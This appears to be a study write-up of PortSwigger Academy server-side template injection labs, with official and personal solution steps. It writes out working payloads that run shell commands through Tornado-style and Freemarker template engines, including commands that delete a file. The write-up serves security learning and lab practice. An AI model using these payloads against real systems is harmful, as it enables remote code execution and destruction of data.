 ```
    ```

9. In Burp Repeater, go back to *POST /my-account/change-blog-post-author-display*. Break out of the expression, and inject your payload into the parameter, remembering to URL-encode it as follows:

    ```blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')```

10. Reload the page containing your comment to execute the template and solve the lab.

**My solution**

1. In repeater I choose this request:

    ``` POST /my-account/change-blog-post-author-display HTTP/1.1```
2. Into *blog-post-author-display=* I write this:

    ```blog-post-author-display=user.name }}{% import os %}{{os.system('whoami')}}&csrf=Zcqq2jbf11204DLe1Lio0nmczWASstDj```

3. then try: 

    ```blog-post-author-display=user.name }}{% import os %}{{os.system('pwd')}}&csrf=Zcqq2jbf11204DLe1Lio0nmczWASstDj```

4. when I refresh the web page then I see: 

    ```/home/carlos Peter Wiener0}} | 04 June 2022```

5. then I can write:

    ```rm /home/carlos/morale.txt```

### Server-side template injection using documentation

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

**Solution**

1. Log in and edit one of the product description templates. Notice that this template engine uses the syntax *${someExpression}* to render the result of an expression on the page. Either enter your own expression or change one of the existing ones to refer to an object that doesn't exist, such as *${foobar}*, and save the template. The error message in the output shows that the Freemarker template engine is being used.
2. Study the Freemarker documentation and find that appendix contains an FAQs section with the question "Can I allow users to upload templates and what are the security implications?". The answer describes how the new() built-in can be dangerous.
3. Go to the "Built-in reference" section of the documentation and find the entry for *new()*. This entry further describes how *new()* is a security concern because it can be used to create arbitrary Java objects that implement the *TemplateModel* interface.
4. Load the JavaDoc for the *TemplateModel* class, and review the list of "All Known Implementing Classes".
5. Observe that there is a class called Execute, which can be used to execute arbitrary shell commands
6. Either attempt to construct your own exploit, or find @albinowax's exploit on our research page and adapt it as follows:

    ```<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }```

```